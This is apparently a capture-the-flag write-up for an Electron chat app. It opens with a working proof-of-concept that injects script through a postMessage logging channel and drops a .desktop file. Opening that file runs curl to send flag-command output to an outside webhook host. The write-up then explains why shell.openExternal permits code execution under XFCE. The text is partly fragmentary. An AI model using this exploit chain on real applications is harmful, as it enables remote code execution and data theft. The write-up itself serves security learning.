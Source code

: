 POC: [1]  
```
var JS = (function(){
    a = top.document.createElement('a');
    a.download = "pwn.desktop";
    a.href = "data:,[Desktop Entry]\nExec=curl https://webhook.site/ea4a966b-3574-4d6a-a8d8-7ca52ff02/?a=`/app/readflag`\nType=Application";
    a.click();
new Image().src='https://webhook.site/ea4a966b-3574-4d6a-a8d8-7caf28502?done=1';
    setTimeout(()=>{
        b = top.document.createElement('a');
        b.href = "file:///home/node/Downloads/pwn.desktop";
	b.click();
new Image().src='https://webhook.site/ea4a966b-3574-4d6a-a8d8-7caf2852ff02?done=2';
    },1000); 
});

var XML = `<x:script xmlns:x="http://www.w3.org/1999/xhtml">(${JS})()</x:script>`

top.postMessage({type:'logging', level: "test", msg: XML}, '*');
```

o wrong with an electron app? 🤔
\
Check the README.md in the zip for more details :D
\
Challenge Files: alleschat.zip


### BrowserWindow
The electron version used by the app is `13.1.7` which by default enables `contextIsolation`, disables `nodeIntegratione` and `webviewTags` are disabled. So, it is not easy to get RCE without nodeIntegration. 

```js
const createWindow = () => {
  const mainWindow = new BrowserWindow({
    width: 1000,
    height: 600,
    webPreferences: {
      preload: path.join(__dirname, "preload.js"),
      sandbox: true,
    },
    icon: path.join(__dirname, "logo.png"),
  });
  ```
 

### Arbitrary urls passed to shell.openExternal()
When I saw, shell.openExternal with arbitrary protocols it became apparent that we can achieve RCE using this. But the app is running on Linux docker, so as far as I know we can't run programs as we can do in Mac like `shell.openExternal('file:///System/Applications/Calculator.app')` but later I realized that its using `XFCE` desktop. 
